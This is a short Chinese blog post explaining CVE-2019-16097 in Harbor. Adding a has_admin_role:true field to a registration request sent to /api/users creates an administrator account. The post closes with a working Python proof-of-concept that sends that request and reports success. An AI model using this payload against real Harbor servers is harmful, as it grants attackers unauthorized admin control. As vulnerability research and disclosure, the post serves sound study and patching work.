

# harbor 越权漏洞（CVE-2019-16097） - 小丸子 3689 - 博客园

> 原文：[`www.cnblogs.com/ffx1/p/12653617.html`](https://www.cnblogs.com/ffx1/p/12653617.html)

## 漏洞介绍

这个漏洞可以在注册发送 post 包时，加入 has_admin_role:true 就可以直接注册成为管理员，下图可以看看 user 的结构：

有很多属性，此处我们关注的是”HasAdminRole”这个属性。这个字段用来区分管理员与普通用户，值是 bool 类型，控制这个字段我们就能利用这个漏洞了。
访问“/api/users”这个 api，并且发送相应的 post 请求就能注册新用户。

漏洞代码位于 user.go 的第 317 行：
if err := ua.DecodeJSONReq(&user); err != nil
这段代码将用户的 post 的数据转换为 user 结构，类似如下格式：
{“username”:”test”,”email”:”test123@gmai.com”,”realname”:”no name”,”password”:”Password1\u0021″,”comment”:null}
如果我们在 json 数据包中加入“has_admin_role” = True 这个字段，就能顺利的注册为管理员。

## poc

```
from urllib.parse import urljoin

import requests

data = {

"username": "test",

"email": "test@qq.com",

"realname": "test",

"password": "testAA123",

"has_admin_role": True

}

url = "https://vuln.com"

response = requests.post(

url=urljoin(url, 'api/users'),

json=data,

verify=False

)

print(response.status_code)

print(response.text)

if response.status_code == 201:

print("success")

else:

print("fail") 
```